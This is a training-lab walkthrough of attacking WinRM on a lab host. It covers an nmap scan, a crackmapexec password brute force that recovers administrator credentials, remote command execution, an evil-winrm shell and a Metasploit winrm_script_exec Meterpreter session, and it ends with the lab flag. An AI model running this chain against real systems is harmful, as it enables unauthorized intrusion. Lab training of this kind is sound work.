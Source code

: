# 🔬WinRM

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> * Target IP: `10.0.21.86`
> * **WinRM** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV -p 5985-5986 10.0.21.86
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-04 21:08 IST
Nmap scan report for 10.0.21.86
Host is up (0.0030s latency).

PORT     STATE  SERVICE VERSION
5985/tcp open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp closed wsmans
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```

> Both WinRM port open

### CrackMapExec Brute-force <a href="#crackmapexec-brute-force" id="crackmapexec-brute-force"></a>

* Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`
* Make sure to insert target protocol and target IP to perform the brute force

```bash
crackmapexec winrm 10.0.21.86 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

> Credentials obtained `administrator:tinkerbell`

* Execute specific Windows commands

```bash
crackmapexec winrm 10.0.21.86 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.0.21.86 -u administrator -p tinkerbell -x "systeminfo"
```

<figure><img src="../../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

### evil-WinRM Shell <a href="#evil-winrm-shell" id="evil-winrm-shell"></a>

* Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.0.21.86
```

<figure><img src="../../../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

### Meterpreter Session <a href="#meterpreter-session" id="meterpreter-session"></a>

```bash
msfconsole
msf5 > search winrm
```

<figure><img src="../../../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

```bash
msf5 > use exploit/windows/winrm/winrm_script_exec 
msf5 exploit(windows/winrm/winrm_script_exec) > set RHOSTS 10.0.21.86
msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
msf5 exploit(windows/winrm/winrm_script_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

* Execute specific Windows commands to get flag

<figure><img src="../../../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>Flag</summary>

`3c716f95616eec677a7078f92657a230`

</details>





